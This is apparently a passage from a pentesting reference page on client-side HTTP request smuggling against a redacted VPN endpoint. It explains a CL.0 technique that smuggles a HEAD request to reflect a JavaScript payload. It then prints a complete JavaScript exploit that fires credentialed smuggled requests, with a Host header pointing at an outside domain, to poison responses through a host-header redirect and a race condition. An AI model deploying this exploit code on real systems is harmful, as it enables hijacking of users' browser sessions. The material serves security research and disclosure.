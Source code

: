 * The page **`/%2f`** is accessed to **exploit** the **CL.0** vulnerability.
* A **HEAD** request is smuggled using a **`Transfer-Encoding: chunked` header**.
  * This header is needed in this scenario because otherwise the **server refused to accept a HEAD request with a body**.
* Then, the user sends a POST whose body contains the **end chunk of the the previous HEAD** request and a **new request that is smuggled** with **content** (the JS payload) that will be **reflected** in the response.
  * Therefore the browser will treat the **response to the HEAD** request as the **response to the POST request** which will also **contains** in the **body** response that **reflects** the **input** of the user in the second smuggled request.

### Host header redirect + RC

* **JS Exploit**

```html
<script>
    function reset() {
        fetch('https://vpn.redacted/robots.txt', 
            {mode: 'no-cors', credentials: 'include'}
        ).then(() => {
            x.location = "https://vpn.redacted/dana-na/meeting/meeting_testjs.cgi?cb="+Date.now()
        })
        setTimeout(poison, 120) // worked on 140. went down to 110
    }

    function poison(){
        sendPoison()
        sendPoison()
        sendPoison()
        setTimeout(reset, 1000)
    }

    function sendPoison(){
        fetch('https://vpn.redacted/dana-na/css/ds_1234cb049586a32ce264fd67d524d7271e4affc0e377d7aede9db4be17f57fc1.css', 
            {
                method: 'POST',
                body: "GET /xdana-na/imgs/footerbg.gif HTTP/1.1\r\nHost: x.psres.net\r\nFoo: '+'a'.repeat(9826)+'\r\nConnection: keep-alive\r\n\r\n",
                mode: 'no-cors', 
                credentials: 'include'
            }
        )
    }

</script>
<a onclick="x = window.open('about:blank'); reset()">Start attack</a>
```

In this case, again, there is a **host header** **redirect** that could be used to **hijack** a **JS** import. However, this time the **redirect isn't cacheable**, so client-side **cache** **poisoning** isn't an option.
